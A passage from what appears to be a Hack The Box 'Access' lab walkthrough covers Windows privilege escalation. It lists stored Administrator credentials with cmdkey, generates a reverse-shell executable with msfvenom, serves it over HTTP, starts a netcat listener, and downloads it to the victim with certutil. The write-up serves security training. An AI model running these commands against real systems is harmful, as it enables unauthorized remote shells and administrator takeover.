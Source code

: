 ```
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.12.50
                                 [02]: fe80::8045:35d9:db0f:f1ec
                                 [03]: dead:beef::8045:35d9:db0f:f1ec

```
The victim is running on Microsoft Windows Server 2008 R2 Standard with SP1. There are several exploits available for this Windows Operating system, but we should continue enumerating before exploiting a kernel exploit. In this case we should check if there are passwords stored on the victim. If there are passwords stored on the victim we can try to reuse them.
```
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
It looks like we can run as another user, in this case the administrator of the system. We can create a binary that will connect to our listener. We can run as administrator this binary and catch a connection. To create this binary we can utilize msfvenom.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Access]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.40 lport=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

```
We should transfer the file to the victim via a web server with python.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Access]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Next we start a netcat listener on our Kali machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Access]
└─$ sudo rlwrap nc -lvp 443      
[sudo] password for emvee: 
listening on [any] 443 ...

```
Then we download our binary to the victim with certutil.
```
C:\Users\security\Desktop>certutil -urlcache -f http://10.10.14.40/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\security\Desktop>

```
